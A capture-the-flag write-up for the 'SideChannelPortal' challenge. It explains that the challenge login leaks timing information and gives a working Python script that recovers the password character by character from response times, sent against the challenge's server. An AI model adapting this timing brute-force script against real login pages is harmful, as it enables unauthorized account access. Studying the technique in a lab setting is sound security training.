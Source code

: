 ### 0x00 Challenge: SideChannelPortal
**Description:**
>Have you heard about side-channel attacks? https://en.wikipedia.org/wiki/Side-channel_attack
>
>URL: http://168.119.247.237:5003/

### 0x01 Write-up:
The login in the URL is vulnerable to Timing Attack. In robots.txt a "/code" path is found that leaks the source code.

![](https://i.imgur.com/K8IMWZc.png)

You can automatize the task to get the password or test manually.

**Script to get the password:**
```python
#!/usr/bin/python3

import requests
from datetime import timedelta

final_password = ""

while len(final_password) < 8:
    for ch in "0123456789abcdefghijklmnopqrstuvwxyz":
        try:
            burp0_url = "http://168.119.247.237:5003/login"
            burp0_headers = {"Cache-Control": "max-age=0", "DNT": "1", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36", "Origin": "http://168.119.247.237:5003", "Content-Type": "application/x-www-form-urlencoded", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "http://168.119.247.237:5003/login", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9,es;q=0.8", "Connection": "close"}
            burp0_data = {"password": final_password + ch, "submit": "Enviar"}
            r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
            print ("Testing: " + final_password + ch)

            if r.elapsed.total_seconds() < 0.8:
                final_password += ch
                break
        except:
            pass

print ("Password is: " + final_password)
```

You only need to login to get the flag

![](https://i.imgur.com/dDXbDEV.png)
